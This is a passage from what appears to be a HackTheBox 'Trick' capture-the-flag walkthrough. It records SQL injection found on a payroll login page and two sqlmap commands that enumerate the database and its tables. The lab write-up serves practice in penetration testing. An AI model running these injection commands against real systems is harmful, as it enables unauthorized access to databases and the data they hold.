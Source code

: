 ![preprod-production.trick.htb](2.png "preprod-production.trick.htb")

Default credentials didn't work here but trying for SQLi showed some errors.

![Login Request](3.png "Login Request")

We can dig further to get the SQLi.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/Trick]
└─$ sqlmap -r login.req http://preprod-payroll.trick.htb/ --current-db
```

Using `sqlmap` we identified the Database is `payroll_db`.

Next we can look for tables in this db.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/Trick]
└─$ sqlmap -r login.req http://preprod-payroll.trick.htb/ -D payroll_db --tables
```

![Tables in payroll_db](16.png "Tables in payroll_db")
